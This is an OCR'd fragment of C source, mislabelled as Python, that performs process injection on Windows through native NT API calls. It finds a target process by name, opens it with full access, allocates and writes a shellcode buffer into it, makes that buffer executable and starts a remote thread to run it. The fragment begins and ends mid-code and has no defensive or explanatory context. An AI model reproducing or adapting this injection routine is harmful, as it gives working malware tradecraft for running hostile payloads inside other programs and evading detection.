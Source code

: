 ```py
        return -1;
    }}

    pProcess = ( PSYSTEM_PROCESS_INFORMATION )pSPIBuffer;

    while ( pProcess->NextEntryOffset != 0 )
    {{
        if ( pProcess->ImageName.Buffer != 0 )
        {{
            if ( wcscmp( pProcess->ImageName.Buffer, TARGET_PROCESS ) == 0)
            {{
                ClientId.UniqueProcess = pProcess->UniqueProcessId;
                Status = NtOpenProcess( &hTargetProcess, PROCESS_ALL_ACCESS, &OA, &ClientId );
                if (Status != SUCCESS)
                {{
                    printf( "Failed to open handle to %S. Error: 0x%0.8X\n", TARGET_PROCESS, Status );
                    return -1;
                }}
                printf("Acuired handle to %S (%d)\n", pProcess->ImageName.Buffer, ( DWORD)(DWORD_PTR)pProcess->UniqueProcessId);
                break;
            }}
        }}
        pProcess = ( PSYSTEM_PROCESS_INFORMATION )( (PBYTE)pProcess + pProcess->NextEntryOffset );
    }}

    if ( !hTargetProcess )
    {{
        printf("Could not find %S\n", TARGET_PROCESS);
        return -1;
    }}

    /* --- Inject shellcode to target process ---*/
    Status = NtAllocateVirtualMemory( hTargetProcess, &pShellcode, 0, &ShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
    if ( Status != SUCCESS )
    {{
        printf("Could not allocate buffer for shellcode\n");
        return -1;
    }}

    Status = NtWriteVirtualMemory( hTargetProcess, pShellcode, shellcode, ShellcodeSize, &BytesWritten);
    if ( Status != SUCCESS )
    {{
        printf("Could not write shellcode to target buffer in %S\n", TARGET_PROCESS);
        return -1;
    }}

    Status = NtProtectVirtualMemory( hTargetProcess, &pShellcode, &ShellcodeSize, PAGE_EXECUTE_READ, &OldProtection );
    if ( Status != SUCCESS )
    {{
        printf( "Could not set memory protections on shellcode buffer in %S\n", TARGET_PROCESS );
        return -1;
    }}
    
    Status = NtCreateThreadEx( &hThread, THREAD_ALL_ACCESS, &OA, hTargetProcess, pShellcode, 0, 0, 0, 0, 0, 0);
    if ( Status != SUCCESS )
    {{
        printf( "Failed to create thread in %S\n", TARGET_PROCESS );
```